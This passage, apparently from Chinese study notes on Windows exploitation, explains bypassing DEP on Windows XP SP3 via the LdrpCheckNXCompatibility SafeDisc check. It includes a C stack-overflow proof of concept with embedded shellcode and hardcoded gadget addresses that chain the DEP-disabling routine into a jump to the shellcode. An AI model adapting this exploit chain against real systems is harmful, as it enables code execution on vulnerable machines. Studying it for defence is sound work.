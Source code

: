 还有一个小问题，函数的参数中包含着0x00 这样的截断字符，这会造成字符串复制的时候被截断。既然自己构造参数会出现问题，那么我们可不可以在系统中寻找已经构造好的参数呢？如果系统中存在一处关闭进程DEP 的调用，我们就可直接利用它构造参数来关闭进程的DEP 了。

# DEP关闭条件
在这微软的兼容性考虑又惹祸了，如果一个进程的Permanent 位没有设置，当它加载DLL时，系统就会对这个DLL 进行DEP 兼容性检查，当存在兼容性问题时进程的DEP 就会被关闭。为此微软设立了LdrpCheckNXCompatibility函数，当符合以下条件之一时进程的DEP 会被关闭：
1. 当DLL 受SafeDisc 版权保护系统保护时；
2. 当DLL 包含有.aspcak、.pcle、.sforce 等字节时；
3. Windows Vista 下面当DLL 包含在注册表“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\ Windows NT\CurrentVersion\Image File Execution Options\DllNXOptions”键下边标识出不需要启动DEP 的模块时。

如果我们能够模拟其中一种情况，结果会是怎么样的呢？答案是进程的DEP 被关闭！
这里选择第一个条件进行尝试。我们来看一下Windows XP SP3 下LdrpCheckNXCompatibility 关闭DEP 的具体流程，以SafeDisc 为例。如图：

![](http://ww3.sinaimg.cn/large/005CA6ZCjw1ez5zr0kgu0j30s40e2q5p.jpg)

现在我们知道LdrpCheckNXCompatibility 关闭DEP 的流程了，我们开始尝试模拟这个过程，我们将从0x7C93CD24 入手关闭DEP，这个地址可以通过OllyFindAddr 插件中的Disable DEP→Disable DEP <=XP SP3 来搜索，如图12.3.3 所示。

![](http://ww3.sinaimg.cn/large/005CA6ZCgw1ez61fdorvkj30hk01374u.jpg)

<font color="red">由于只有 CMP AL，1 成立的情况下程序才能继续执行，所以我们需要一个指令将AL 修改为1。</font>

将AL 修改为1 后我们让程序转到0x7C93CD24 执行，在执行0x7C93CD6F 处的RETN4 时DEP 已经关闭，此时如果我们可以在让程序在RETN 到一个我们精心构造的指令地址上，就有可能转入shellcode 中执行了。我们通过以下代码来分析此流程的具体过程。
```
#include<stdlib.h>
#include<string.h>
#include<stdio.h>
#include<windows.h>

char shellcode[]=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x52\xE2\x92\x7C"//MOV EAX,1 RETN 地址
"\x85\x8B\x1D\x5D"//修正EBP
"\x19\x4A\x97\x7C"//增大ESP
"\xB4\xC1\xC5\x7D"//jmp esp
"\x24\xCD\x93\x7C"//关闭DEP 代码的起始位置
"\xE9\x33\xFF\xFF"//回跳指令
"\xFF\x90\x90\x90";

void test(){
	char tt[176];
	strcpy(tt,shellcode);
}

int main(){
	HINSTANCE hInst = LoadLibrary("shell32.dll");
	char temp[200];
	test();
	return 0;
}
```